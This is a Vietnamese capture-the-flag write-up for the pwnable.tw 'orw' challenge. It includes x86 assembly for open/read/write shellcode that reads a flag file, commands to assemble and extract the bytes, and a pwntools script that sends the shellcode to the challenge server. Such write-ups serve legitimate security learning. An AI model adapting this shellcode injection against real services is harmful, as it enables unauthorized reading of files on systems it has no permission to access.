



# [orw][[pwnable.tw](https://pwnable.tw)]

>Read the flag from ```/home/orw/flag```
>
>Only ```open``` ```read``` ```write``` syscall are allowed to use.
>
>```nc chall.pwnable.tw 10001```
>
>[orw](https://pwnable.tw/static/chall/orw)

OK cũng như các bài khác mình sẽ check kiểu file và strings

Kiểu file:

 

Strings:

 

Strong ```chall``` này mình để ý nhất đề string ```"Give me your shellcode"```.

Load chall vào IDA



Bài này đơn giản chỉ là đọc 1 đoạn shellcode người dùng nhập vào và thực thi doạn shellcode đó.

Quay lại vói đề bài. Ta biết vị trí của flag ```/home/orw/flag```. Biết được rằng chỉ được sử dụng các ```syscall```: ```open```, ```read```, ```write```.

Mình nghĩ mục đích của bài này để thử thách người chơi về kĩ năng tạo shellcode mà thôi

Mình sẽ sử dụng asm viết 1 đoạn chương trình đọc file và in ra màn hình sử dụng các syscall được cho phép. Rồi dùng objdump để tạo shellcode

```c
section .text
    global _start

_start:
    ;open
    mov     edx, 0
    mov     ecx, 0
    ;/home/orw/flag
    push    'ag'
    push    'w/fl'
    push    'e/or'
    push    '/hom'
    mov     ebx, esp
    mov     eax, 5
    int     80h

    ;read
    mov     edx, 30h
    mov     ecx, ebx
    mov     ebx, eax
    mov     eax, 3
    int     80h

    mov     edx, eax
    mov     eax, 4
    mov     ebx, 1
    int     80h
    ;exit
    mov     eax, 1
    int     80h

```

Biên dịch với nasm:

```sh
nasm -f elf test.asm
ld -m elf_i386 -s -o test_1 test.o
```

Dump:

```sh
for i in $(objdump -d test_1 |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
```

Sau khi bước này mình đã có shellcode trong tay. Việc còn lại sẽ tương tự như ```start``` challenge trong bài viết trước

Python code:

```python
from pwn import *

host = "chall.pwnable.tw"
port = 10001

shellcode = "\xba\x00\x00\x00\x00\xb9\x00\x00\x00\x00\x68\x61\x67\x00\x00\x68\x77\x2f\x66\x6c\x68\x65\x2f\x6f\x72\x68\x2f\x68\x6f\x6d\x89\xe3\xb8\x05\x00\x00\x00\xcd\x80\xba\x30\x00\x00\x00\x89\xd9\x89\xc3\xb8\x03\x00\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80"

con = remote(host, port)
print con.recv(1024)

con.send(shellcode)
print con.recv(1024)
con.close()
```